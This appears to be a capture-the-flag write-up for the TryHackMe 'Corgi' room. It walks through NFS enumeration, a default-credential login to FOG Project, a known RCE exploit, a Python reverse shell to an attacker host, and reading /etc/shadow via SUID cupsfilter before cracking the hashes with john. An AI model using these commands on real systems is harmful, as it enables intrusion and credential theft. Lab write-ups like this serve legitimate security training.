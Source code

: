 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any pen test is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](:/42a9b8f9792f4d1c8b5490dc54a3f65f)
![nmap scan pt2](:/6d2ef1ea1b724079bc96d0ffbaf5ea91)

## NFS
from this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.
![0ab7abcb4db170d7b31f2975f2ed6614.png](:/4d1e42f9ef814017937dfdaf642ea77a)
looks like there are 2 shares we can mount, lets use mount one of them and have a look around
![4d2d1a230846255da7bb365383f206fd.png](:/c1b020b306344a64857a4e28e94067fa)

## FOG Project
after looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'
![3a5dd118150843ea5f6dc38ee38187a6.png](:/c69aa96cc3324422993f48f586ece162)
and going to `<TARGET-IP>/fog` takes us to a login page
![b8cda2f2b49703c47ffcf5d6b2506673.png](:/cd80521c0b524a6a9e199593d15c4cdf)
Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.
![405ec8ea462164f98ff212cdf85fbe9d.png](:/44fcff83142b4daa948d32de06b5594a)
Lucky for us these default credentials worked and we are now logged in to the FOG dashboard
![20a6f58f0cf7228d53ac48c6c1099ae2.png](:/fdfb33226906456d8d4e28859258b659)

## RCE Exploit
now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.
![9adba4d0a01811ddbb176e6ea4d601bc.png](:/4bddb8cb41be4c4c85de6e3b072f60d6)
Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811
![760649555dc6b666380a05fb6ebe3b7c.png](:/4c2efc74c4914041a377b3c79a97ebba)
lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.
![ac4efb628133910c86d4f130be274811.png](:/bbc4273adbb9495394032d4b98eec13f)
![34ba939c344bca30df8712d58a48b718.png](:/9e687c6301fe4f27b964e866ffc5cffa)
running the hostname command to test if file upload worked
![eae0e0362befad53ed6e5af6a9a15efc.png](:/15c757a0818b4c1985fd32f8ff723bb9)

## Reverse Shell & Privilege Escalation
now that we have RCE lets get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![f5d6aa9578469b24a8dbfdc92a7a7a33.png](:/7875820ea9a844848efe45fffd6dd8b9)
and stabilise the shell
![5d28a637abdc6b3765504b121d090e5f.png](:/a4ea6801f77f4c2f939fce11f774875c)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`
![9cae3ff8a5c41702a93e850a06854b1a.png](:/ce9d248e64994e5bae8bca10223a5ac7)
After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![6c6f7fc33238b59402c03ef5a1298a1a.png](:/1a511ebff2c6419bbf24d0ebd2363812)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![074eefb955ebd5e2fc02d0547f78d118.png](:/f574c0d04fdb4988805293edeceba32c)
![38db1ecb8b19d27b8cdb80706e3a2be0.png](:/ee80be10975b4eb98b9b9c0757c90bd6)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![8a437ccfebc38cae72c4f6f485eeb2b2.png](:/244c3a55448147d0a64d75858f7d7231)
![1a0515583d685b785daf91ff9df8f7a9.png](:/a6d11a56fd2149159d1a9e1276abfa60)
lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`
`john --wordlist=/usr/share/wordlists/rockyou.txt`
![9a13e4b0a843d245da892d1f72c3c487.png](:/57b3d7e5c84e485fa8af2fe25fe3ead9)

so now we have a login, lets `su` into the new user and see what permissions they have.sudo 
![4bb2d2dccab7ce872a5a8b260f41d897.png](:/1143b3cf111a483a89c5e01af6644212)

so it looks like they can run any command, lets try to get into the root account and find the user and root hashes

![8c471db405b89841fbffcda1ae7b4c95.png](:/d1382a6454204a378a43b74af7b25337)
![4d6ee4505811590c7fe4fad20744d06e.png](:/57476ef107614746bf0ebe01e218a7df)